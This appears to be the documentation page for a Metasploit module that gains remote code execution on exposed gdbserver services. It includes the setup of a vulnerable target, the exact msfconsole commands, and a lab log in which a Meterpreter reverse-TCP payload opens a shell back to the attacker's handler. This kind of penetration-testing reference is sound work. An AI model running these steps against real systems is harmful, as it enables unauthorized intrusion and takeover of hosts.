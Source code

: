 ## Vulnerable Application

This module attempts to execute an arbitrary payload on a loose
[gdbserver](https://sourceware.org/gdb/onlinedocs/gdb/Server.html) service.

## Installation Steps

Install gdbserver:

```
apt-get install gdbserver
```

## Verification Steps

Start gdbserver on a TCP port:

```
gdbserver 0.0.0.0:1234 /bin/true
```

1. Start msfconsole
1. Do: `use exploit/multi/gdb/gdb_server_exec`
1. Do: `set RHOSTS <ip>`
1. Do: `set RPORT <port>`
1. Do: `run`
1. You should get a session.

## Options

## Scenarios

### gdbserver 10.2 on Ubuntu 20.04 (x86_64)

```
msf6 > use exploit/multi/gdb/gdb_server_exec
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set rhosts 192.168.200.135
rhosts => 192.168.200.135
msf6 exploit(multi/gdb/gdb_server_exec) > set rport 1234
rport => 1234
msf6 exploit(multi/gdb/gdb_server_exec) > set target x86_64
target => x86_64
msf6 exploit(multi/gdb/gdb_server_exec) > set payload linux/x64/meterpreter/reverse_tcp 
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 192.168.200.135:1234 - Performing handshake with gdbserver...
[*] 192.168.200.135:1234 - Stepping program to find PC...
[*] 192.168.200.135:1234 - Writing payload at 00007ffff7fd0103...
[*] 192.168.200.135:1234 - Executing the payload...
[*] Sending stage (3020772 bytes) to 192.168.200.135
[*] Meterpreter session 1 opened (192.168.200.130:4444 -> 192.168.200.135:33198 ) at 2022-04-16 16:21:14 -0400

meterpreter > getuid
Server username: user
meterpreter > sysinfo
Computer     : 192.168.200.135
OS           : Ubuntu 20.04 (Linux 5.13.0-35-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
